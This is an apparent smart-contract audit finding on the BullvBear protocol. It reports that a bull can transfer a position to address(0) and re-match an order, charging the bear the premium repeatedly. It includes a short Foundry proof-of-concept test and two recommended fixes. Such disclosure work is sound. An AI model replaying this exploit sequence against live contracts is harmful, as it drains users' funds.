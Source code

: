 carrot

high

# Orders can be matched multiple time costing multiple premiums

## Summary
Bulls can match orders made by bears multiple times, costing the bear the premium amount multiple times. This isnt profitable for the attacker, but can cause unforeseen losses to the bear's side.
## Vulnerability Detail
The only criterion for checking if an order is already matched is in the function `checkisValidOrder`
`require(bulls[uint(orderHash)] == address(0), "ORDER_ALREADY_MATCHED");`

This can be fooled by using the `transferPosition` function with `recipient = adress(0)` by the bull which which will set the new bull to `address(0)`. Then the bull can again match that order. This will cause the bull to lose the collateral each time which makes it unprofitable, but will also cost the bear the premium each time which still makes it an attack leading to loss of user funds.
## Impact
Bear will have premium deducted from it multiple times, draining their wallet.
## Code Snippet
Relevant code sections:
Validity checking: 
https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/src/BvbProtocol.sol#L734-L761

Transfer: 
https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/src/BvbProtocol.sol#L521-L538

Proof of concept of attack (Foundry):
```solidity
function testDoubleMatch() public {
        // Set order
        BvbProtocol.Order memory order = defaultOrder2();
        order.premium = 1 ether;
        order.collateral = 1 ether;
        bytes32 orderHash = bvb.hashOrder(order);
        bytes memory signature = signOrder(bearPrivateKey, order);
        bvb.matchOrder(order, signature);
        // Bear balance after 1st match
        uint256 intermediateBearBalance = weth.balanceOf(bear);
        // Transfer off
        bvb.transferPosition(orderHash, true, address(0));
        // Match again
        bvb.matchOrder(order, signature);
        // Bear balance after 2nd match
        uint256 secondMatchedBearBalance = weth.balanceOf(bear);
        // Bear paid twice!
        assert(secondMatchedBearBalance < intermediateBearBalance);
    }
```

## Tool used
Foundry

## Recommendation
Can be mitigated by two methods:
1. Check for both bear AND bull in the function `checkIsValidOrder` by adding another require
`require(bears[uint(orderHash)] == address(0), "ORDER_ALREADY_MATCHED");`

2. Since address(0) is being used for checking, make sure positions cannot be transferred to that address. If users want to burn thir side of the contract, they can send to 0xdead address, not address(0). In function `transferPosition`, add
`require(recipient != address(0), "Can't transfer to address 0");`
